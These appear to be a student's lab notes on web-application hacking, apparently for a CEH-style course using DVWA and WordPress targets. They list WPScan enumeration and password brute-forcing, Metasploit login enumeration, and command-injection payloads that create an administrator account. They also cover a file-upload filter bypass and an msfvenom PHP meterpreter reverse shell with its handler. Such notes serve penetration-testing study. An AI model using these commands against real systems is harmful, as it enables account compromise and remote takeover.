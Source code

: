 1) Parameter Tampering = changing the last parameter = IDOR 
2) XSS = cross site scripting 
3) Enumeration and Hacking a web Application Using WPscan and metasploit  we can also use nmap to enumerate the users in wordpress 
	1) Commands for WPSCAN
		1) wpscan --url https://example/ --enumerate u (To enumerate the user) 
		2) wpscan --url http://172.16.0.27:8080/CEH/ -usernames elliot  -P /path/pass.txt
		3) wpscan --url https://example/ --enumerate vp (To enumerate vuln plugins)

	2) Commands for  metasploit 
		1) use auxiliary/scanner/http/wordpress_login_enum
		2) options
		3) run
4) Exploiting remote command execution login -> set the DVWA security to low  -> issue the commands
	1) for command injection
		1) | hostname
		2) | whoami
		3) | net user
		4) | dir C:\
		5) | net user Test /Add
		6) | net localgroup Administrators Test /Add

5) Vega 
	1) Add IP see the vuln

6) Acunetix 
	1) vuln scanner

7) Upload Vuln 
	1) all were easy 
	2) in one at GIF98 to the end of file to upload it and rename it as upload.php.jpg
	3) https://techsphinx.com/hacking/hacking-for-beginners-file-upload-vulnerability/
	4) msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f raw
	5) use exploit/multi/handler
	6) show options set lhost as 10.10.10.10. set lport 1234 -> done 

8) Command injection will see in paper 
9) CSRF 
	1) we will se in paper 

